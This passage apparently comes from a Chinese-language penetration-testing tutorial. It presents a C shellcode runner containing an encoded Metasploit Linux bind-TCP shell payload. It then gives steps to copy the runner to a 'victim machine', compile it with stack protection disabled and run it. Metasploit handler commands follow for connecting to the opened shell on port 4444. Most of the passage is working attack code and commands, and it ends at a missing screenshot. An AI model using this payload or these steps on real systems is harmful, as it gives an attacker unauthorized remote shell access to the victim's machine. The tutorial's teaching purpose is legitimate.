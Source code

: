 ```
#include<stdio.h>
#include<string.h>
unsigned char code[] =
"\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48\x8d\x05\xef\xff"
"\xff\xff\x48\xbb\xdd\x0a\x08\xe9\x70\x39\xf7\x21\x48\x31\x58"
"\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\xb7\x23\x50\x70\x1a\x3b"
"\xa8\x4b\xdc\x54\x07\xec\x38\xae\xa5\xe6\xd9\x2e\x0a\xe9\x61"
"\x65\xbf\xa8\x3b\x60\x18\xb3\x1a\x08\xaf\x2e\xd8\x53\x62\xdb"
"\x28\x36\xf2\x69\x4b\x60\x23\xb1\x7f\x3c\xa7\x77\x82\x60\x01"
"\xb1\xe9\x8f\xe7\x69\x54\xdc\x45\xd8\xb9\x53\xd5\x60\x87\xb8"
"\x0f\xe6\x75\x71\x61\x69\x4a\x55\x07\xec\x8f\xdf\xf7\x21";

int main()
{
     printf("Shellcode Length: %d\n", (int)strlen(code));
     int (*ret)() = (int(*)())code;
     ret();
}
```

然后，将其复制到我们的受害者机器上。现在，编译并运行它：

```
$ gcc -fno-stack-protector -z execstack bin-tcp-msf.c -o bin-tcp-msf
$ ./bin-tcp-msf
```

它正在等待连接。现在，让我们在攻击者机器上使用 Metasploit Framework 和`msfconsole`命令设置我们的监听器，然后选择处理程序：

```
use exploit/multi/handler
```

然后，我们使用这个命令选择我们的有效载荷：

```
set PAYLOAD linux/x64/shell/bind_tcp
```

现在，我们指定受害者机器的 IP：

```
set RHOST 192.168.238.128
```

然后，我们指定端口- Metasploit 的默认端口是`4444`：

```
set LPORT 4444
```

现在，我们运行我们的处理程序：

```
exploit
```

上述命令的输出如下截图所示：
